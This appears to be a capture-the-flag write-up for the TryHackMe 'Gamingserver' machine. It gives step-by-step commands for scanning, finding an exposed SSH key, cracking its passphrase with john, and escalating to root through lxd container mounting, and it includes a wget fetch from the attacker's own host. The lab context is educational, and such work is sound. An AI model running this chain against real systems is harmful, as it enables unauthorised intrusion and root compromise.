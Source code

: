 ```yaml
---
layout: post
title: THM Gamingserver writeup
date: 2020-07-08T11:44:13.857Z
---
```

first start by doing a port scan

```bash
rustscan $IP
```

results:

```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

then start start dirbuster or gobuster to search for hidden files

```bash
gobuster dir -u $IP -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

you will then find an interesting folder called "/secret" 

![](https://i.imgur.com/dvouO8n.png)

that contains a ssh key, download it

after you downloaded that key create a new hash file using ssh2john

```bash
python ssh2john.py SecretKey > id_rsa.hash
```

and then crack it using john and rockyou wordlist

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

results

```bash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein          (id_rsa)
1g 0:00:00:12 DONE (2020-08-30 22:24) 0.08278g/s 1187Kp/s 1187Kc/s 1187KC/s *7¡Vamos! *
Session completed
```

then i found a user that can be used for a ssh connection on the website source code

in the bottom line of : https://$IP/index.html

![](https://i.imgur.com/AkvBtg2.png)

as you can see there is a user called john

connect to the server throught ssh

```bash
ssh john@$IP -i ./SecretKey
```

enter the passphrase and you logged in as john

![](https://i.imgur.com/fvRhWhv.png)

now get the user flag

```bash
cat user.txt
a****************e
```

after searching and looking in the machine i found an interesting service called lxd(Linux Containers) owned by root and that can be used by anyone,

locally clone that repo and run the other commands

```bash
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
```

then start a simple web server

```bash
python -m SimpleHTTPServer
```

then download the files you just downloaded locally

```bash
cd /tmp
wget http://$LHOST:8000/alpine-v3.12-x86_64-20200830_2354.tar.gz
```

replace $LHOST with your local ip address (run "ip addr" to see it)

import the image by running: 

```bash
lxc image import ./alpine-v3.12-x86_64-20200830_2354.tar.gz --alias myimage
```

then spawn a root shell by running this list of commands

```bash
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
whoami
```

now get the root flag 

```bash
cat mnt/root/root/flag.txt
2************c
```

if you don't get your root shell or it's not working try following this [guide](https://www.hackingarticles.in/lxd-privilege-escalation/) for privilege escalation about lxd